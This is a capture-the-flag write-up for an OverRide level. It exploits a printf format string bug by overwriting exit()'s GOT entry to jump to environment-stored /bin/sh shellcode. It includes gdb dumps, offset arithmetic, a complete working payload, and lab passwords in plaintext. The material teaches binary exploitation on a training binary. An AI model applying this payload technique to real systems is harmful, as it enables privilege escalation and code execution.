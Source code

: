 # Format string attack / overwrite GOT / ret2shellcode

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level05
           ____                  ____  _     __   
          / __ \_   _____  _____/ __ \(_)___/ /__ 
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/ 
                                          
                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level05@192.168.56.101's password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```
Only one `main()` function is defined in the executable.
It gets users input, decapitalize and print, following by exit with status 0.

Even though the stack is executable, at the first glance shellcode can be placed in the buffer.

But the redirection of the flow to the stack will not work, as the program modify user input.
```shell
level05@OverRide:~$ readelf -a level05 | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```
```
Breakpoint 1, 0x0804847a in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6850c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x50e3896e<<  >>0xb0e18953<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
gdb-peda$ x/25wx 0xffffd698
gdb-peda$ continue
Breakpoint 2, 0x08048513 in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6870c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x70e3896e<<  >>0xb0e18973<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
```

The issue is that `printf()` is missuded which expose the application to the Format String Attack.

FSA allows to apply overwrite of GOT table where address of `exit()` is stored.

Input recognizable characters to determine how far away input is layed on the stack.

> Note that due to XOR operation upercase character will be inverted, A(41) will be a(61).

```shell
level05@OverRide:~$ python -c 'print("AAAABBBB" + "%x "*11)' | ./level05
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
Input string starts with offset 10.
```
        [1]      [2]      [3]      [4]      [5]      [6]      [7]      [8]      [9]      [10]     [11]
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```

Export [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into environment variables and  retrieve the address where it is lay.

Devide the address per byte  and calculate for each number of characters that need to be printen by `%x` and written by `%n`.
```
0xffffdedb
0xdb -> 0x0db-16 = 203
0xde -> 0x1de-16-203 = 259
0xff -> 0x1ff-16-259-203 = 33
0xff -> 0x2ff-16-259-203-33 = 256
```

## Exploit
```shell
level05@OverRide:~$ export SHELL_CODE=$(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
level05@OverRide:~$ ./getenv SHELL_CODE
SHELL_CODE at 0xffffdedb
level05@OverRide:~$ (python -c 'import struct; print(struct.pack("I", 0x080497e0) + struct.pack("I", 0x080497e1) + struct.pack("I", 0x080497e2) + struct.pack("I", 0x080497e3) + "%203x%10$n" + "%259x%11$n" + "%33x%12$n" + "%256x%13$n")'; echo 'id; cat /home/users/$(whoami)/.pass') | ./level05
                                                                                                                                                                                                         64                                                                                                                                                                                                                                                           f7fcfac0                         f7ec3af9                                                                                                                                                                                                                                                        ffffd65f
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## Addendum
```c
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char *av[])
{
  printf("%s at %p\n", av[1], getenv(av[1]));
}
```
